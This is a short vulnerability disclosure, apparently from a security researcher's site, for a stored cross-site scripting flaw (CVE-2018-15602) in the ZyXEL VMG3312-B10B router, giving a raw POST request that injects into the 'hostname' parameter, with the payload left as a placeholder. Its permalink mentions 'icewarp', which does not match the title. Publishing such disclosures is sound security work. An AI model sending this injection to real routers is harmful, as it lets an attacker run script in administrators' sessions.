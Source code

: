 ```yaml
---
title: "ZyXEL VMG3312-B10B Stored Cross-Site Scripting"
collection: exploits
excerpt: "ZyXEL VMG3312-B10B Stored Cross-Site Scripting"
permalink: /exploit/icewarp-xss-exploit
date: 2018-08-21
tags:
  - exploit
  - CVE 2018 15602
  - zyxel
  - Stored XSS
  - ZyXEL VMG3312 B10B router
---
```


**Exploit Author :** Samet SAHIN  
**Date :** 21.08.2018  
**Software Link :** ftp://ftp.zyxel.com.tr/ZyXEL_URUNLERI/MODEMLER/VDSL_MODEMLER/VMG3312-B10B/  
**Vendor Homepage :** https://www.zyxel.com/  
**Version :** ZyXEL VMG3312-B10B  
**Tested on :** Mozilla Firefox 61.0.2 && Google Chrome 67.0.3396.99  
**Category :** Stored XSS  
**CVE ID :** CVE-2018-15602  

<hr><br>  

**POST REQUEST :**

POST /pages/connectionStatus/connectionStatus-hostEntry.cmd HTTP/1.1  
Host: 192.168.1.1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:54.0) Gecko/20100101 Firefox/54.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3  
Accept-Encoding: gzip, deflate  
Referer: http://192.168.1.1/index.html  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 79  
Cookie: SESSION=529313605  
Connection: close  
Upgrade-Insecure-Requests: 1  
action=edit&oldip=192.168.1.36&hosttype=&sessionKey=1997367832&**hostname**=**XSS PAYLOAD**  

**Vulnerable Page :**
/pages/connectionStatus/connectionStatus-hostEntry.cmd  
**Vulnerable Parameter :**
hostname


Exploit DB : <a href="https://www.exploit-db.com/exploits/45236">45236</a>
